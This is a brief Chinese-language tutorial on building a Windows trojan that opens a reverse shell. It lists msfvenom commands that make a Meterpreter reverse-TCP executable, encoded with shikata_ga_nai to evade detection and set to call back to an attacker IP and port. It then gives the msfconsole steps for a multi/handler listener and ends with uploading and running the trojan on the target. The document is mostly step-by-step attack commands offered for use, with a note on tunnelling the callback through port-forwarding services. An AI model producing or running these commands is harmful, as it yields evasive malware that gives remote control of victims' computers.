


生成木马反弹shell（Windows）

# 一、环境准备

1. MSF-Metasploit Framework
2. 一台windiows靶机

# 二、开始生成木马

1. 使用msfvenom生成木马
2. 终端内输入:   msfvenom -p windows/meterpreter_reverse_tcp LHOST={监控IP} LPORT={监控端口} -e x86/shikata_ga_nai  -f exe -o  new.exe -i 5

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.38  LPORT=4567  -e x86/shikata_ga_nai  -f exe -o  shell.exe  -i 5

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf

2. 载入监控模块  msf中输入： use exploit/multi/handler

   

3. 加载payload  msf终端中输入：set payload windows/meterpreter/reverse_tcp

4. 配置payload  msf终端中输入：show options

5. 配置payload监控IP msf终端中输入： set  lhost  {监控IP}

6. 配置payload监控端口  msf终端中输入：set lport  {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：show options 

8. 执行监控  msf终端中输入： run

# 四、攻击利用

1. 将木马上传到靶机
2. 在靶机上执行木马
3. 完成攻击利用